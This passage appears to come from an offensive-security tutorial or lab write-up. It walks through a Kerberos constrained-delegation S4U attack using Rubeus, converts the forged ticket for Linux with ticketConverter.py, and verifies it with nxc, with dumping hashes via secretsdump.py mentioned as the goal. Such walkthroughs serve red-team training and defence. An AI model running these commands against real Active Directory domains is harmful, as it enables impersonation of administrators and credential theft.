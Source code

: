 #### Windows -> Linux

We'll perform the attack from Windows first, since it'll likely be more familiar to most readers.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /ptt
```

> Remember to check if your `/impersonateuser` has local admin privileges on the target machine, and is not protected from delegation. See: [Protected Accounts](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts) and [Protected Users (Group)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)

![28](https://i.gyazo.com/62e89678fd3f3c826cc3527d99ca35bb.png)

And the attack worked flawlessly, now let's see how we can pass this ticket to be used on Linux (i.e. `secretsdump.py` to dump hashes remotely).

Firstly, we'll need the ticket to be in a format that is easily copy-pastable to Linux; we can do this with the `/nowrap` flag and of course remove the `/ptt` flag.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /nowrap
```

![29](https://i.gyazo.com/9bf98ef3a940f1dd4709f495f8945a35.png)

Similarly to before, we can do the same trick to convert the ticket to a format that is usable in Linux.

```sh
echo "[b64_ticket]" | base64 -d > ticket.kirbi && ticketConverter.py ticket.kirbi ticket.ccache && export KRB5CCNAME=ticket.ccache
```

![30](https://i.gyazo.com/17d48ecaeaae86d2b5617f5f26a21a78.png)

And, of course we can verify that the ticket is usable with `nxc`

```sh
nxc smb [IP/FQDN] --use-kcache
```

![31](https://i.gyazo.com/015982f7305b7f468e86444f27aa8194.png)

We can also use `describeTicket.py` to visualize the contents of our ticket, and you'll see that we have a ticket that is usable for the `CIFS` service on `US-MSSQL`. However, this means that we won't be able to use WinRM.

```sh
describeTicket.py ticket.ccache
```

![32](https://i.gyazo.com/21447cf5d00e245e6ebb7beacda4fb18.jpg)
